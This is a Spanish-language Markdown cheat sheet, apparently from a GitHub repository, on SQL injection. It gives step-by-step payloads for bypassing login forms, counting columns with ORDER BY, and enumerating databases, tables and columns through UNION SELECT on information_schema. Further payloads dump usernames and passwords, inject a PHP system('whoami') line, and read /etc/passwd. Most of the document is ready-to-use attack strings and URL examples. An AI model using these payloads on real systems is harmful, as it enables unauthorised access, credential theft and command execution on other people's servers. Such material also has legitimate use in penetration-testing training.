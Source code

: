 ### Autenticación débil basada en SQL:
- Formulario de inicio de sesión (username - passwd) donde la inyección intenta **eludir la autenticación.**
```sql
SELECT * FROM users WHERE username='' AND passwd=''
1. username='admin' or 1=1-- - AND passwd='admin'
2. username='admin' or 1=1#
3. user='admin' -- || user='admin'-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
#### Determina el número de columnas devueltas por la consulta
- Aprovechando el manejo de error en la respuesta para saber el total de columnas.
```sql
SELECT password,email FROM users WHERE username='pepe'' order by 2-- -
1. username order by 2-- -
2. username order by 3-- -//Devuelve error ya que al comienzo solo se seleccionan 2
```
<p align="center">
  <img src="https://i.postimg.cc/Z5MNWdqw/sql-ejemplo-error-ORDER-BY.png" alt="sql"/>
</p>
**Error ORDER BY**
<p align="center">
  <img src="https://i.postimg.cc/pL3FQXxF/ERROR-sql.png" alt="sql"/>
</p>

- Combinar del 1 hasta el total de columnas de la tabla con UNION SELECT
```sql
SELECT password,email FROM users WHERE username='pepe' union select 1,2-- -
SELECT password,email FROM users WHERE username='pepe' union select NULL,NULL-- -
//Este último va en la URL
```
+ Mostrar una posible inyección de código PHP
```sql
SELECT password,email FROM users WHERE id=1 UNION SELECT "<?php system('whoami'); ?>",user();-- -;
```
<p align="center">
  <img src="https://i.postimg.cc/Z5KPBmx5/sql-inyeccion-code-y-dbuser.png" alt="sql"/>
</p>
- Mas ejemplos con el uso de UNION SELECT '',''-- -
<p align="center">
  <img src="https://i.postimg.cc/6qxB0qpy/mas-ejemplos-con-UNION.png" alt="sql"/>
</p>
+ Utilizando una inyección de código hacia un directorio como **/etc/hosts** o **/etc/passwd**
<p align="center">
  <img src="https://i.postimg.cc/1X0nT1WV/load-file-sql.png" alt="sql"/>
</p>
---

+ **Recupera las bases de datos disponibles en el servidor - LISTAR DBS**
```sql
//Ejemplo por consola
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,group_concat(schema_name) FROM information_schema.schemata-- -
```
```SQL
//Esto va en la URL
' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -
```
- **Recupero "todas" las tablas creadas en cada base de datos. - LISTAR TABLAS**

```SQL
//Esto va en la URL
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```
-  LISTAR COLUMNA
<p align="center">
  <img src="https://i.postimg.cc/7ZT8y18D/tabla-y-dbs.png" alt="sql"/>
</p>

```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -
```
information_schema.tables > Muestra todas las tablas

- Leer todos los nombres de usuario y contraseña de una tabla
```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,password FROM users-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
---
## Tipos de inyecciones y "paso a paso".

##### 1.er Paso:
### ' ORDER BY [num_columns]-- -

Determina `' ORDER BY [num]-- -` el número de columnas en la tabla de la base de datos.
<p align="center">
  <img src="https://i.postimg.cc/N0GGQs8R/sqli.png" alt="sqli"/>
</p>
+ Ejemplo.
```url
https://example.com/filter?category=gift' ORDER BY 1-- -
https://example.com/filter?category=gift' ORDER BY 2-- -
https://example.com/filter?category=gift' ORDER BY 3-- -
https://example.com/filter?category=gift' ORDER BY 4-- -
```
<p align="center">
  <img src="https://i.postimg.cc/W1tQcpBz/image.png" alt="sql"/>
</p>
**"Al obtener un error se sabe que el número anterior es el número de columnas."**

##### 2.do Paso:

### ' UNION SELECT [NULL x cant_columns]-- -
<p align="center">
  <img src="https://i.postimg.cc/76KsrqhX/imagen.png" alt="sql"/>
</p>

- Ejemplos
1. Descubrir los nombres de las DB.
```SQL
SELECT * FROM tabla UNION SELECT schema_name,2,3,4 FROM information_schema.schemata;-- -;
```
2. Descubrir las tablas creadas dentro de cada DB.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables;-- -;
```
3. Descubrir las tablas dentro de una DB específica.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='name_DB';-- -;
```
4. Ver las columnas de una tabla.
```SQL
SELECT * FROM tabla UNION SELECT column_name, 2, 3, 4 FROM information_schema.columns WHERE table_name='users' AND table_schema='name_DB';-- -;
```
5. Ver los datos dentro de una DB
```SQL
SELECT username,password FROM users UNION SELECT username,password FROM login.users-- -
```
+ Concatenar
```SQL
SELECT username,password FROM users UNION SELECT NULL,username||':'||password FROM users-- -
```
